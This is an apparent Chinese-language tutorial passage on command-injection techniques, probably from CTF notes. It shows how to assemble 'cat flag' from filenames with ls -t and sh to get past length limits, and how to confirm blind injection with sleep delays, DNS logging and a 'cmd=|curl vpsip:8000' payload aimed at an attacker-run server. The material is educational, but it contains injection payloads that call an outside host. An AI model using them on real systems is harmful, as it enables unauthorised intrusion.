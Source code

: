 
3、文件构造绕过
即利用 ls -t 和 > 以及换行符 \ 来绕过长度限制执行命令
`ls -t`: 在linux中，使用 ls -t 可以将文件名按时间顺序排列出来(后创建的排前面)
于是可以通过下列方式构造`cat flag`命令：

```php
`> "ag"`
`> "fl\\"`
`> "t \\"`
`> "ca\\"`
`ls -t > test
`sh test`
```

以上命令即成功构造并执行了带有命令`cat flag`的test文件



------

## 命令执行无回显

命令执行可能会存在命令执行但没有回显，所以首先要判断命令是否有执行。确定命令可以执行，然后就可以进行无回显命令执行的利用了。

### 判断方法

#### **1、利用延时**

```
cmd= |sleep 5  #
```

如果执行后延时5秒，就证明测试点存在命令执行漏洞



#### 2、http请求

**（1）在VPS上用python3开启一个简易版的http服务器**

```
python3 -m http.server 8000
```

**（2）向目标服务器发起http请求，执行curl命令**

```
cmd=|curl vpsip:8000
```

如果向目标服务器发起http请求后，公网服务器监听端口得到一些信息，就证明测试点存在命令执行漏洞。



#### 3、DNS请求

```
如果请求的目标不是ip地址而是域名，那么域名最终还要转化成ip地址，就肯定要做一次域名解析请求。那么假设我有个可控的二级域名，那么它发出三级域名解析的时候，我这边是能够拿到它的域名解析请求的，这就相当于可以配合DNS请求进行命令执行的判断，这一般就被称为dnslog。（要通过dns请求即可通过ping命令，也能通过curl命令，只要对域名进行访问，让域名服务器进行域名解析就可实现）
```
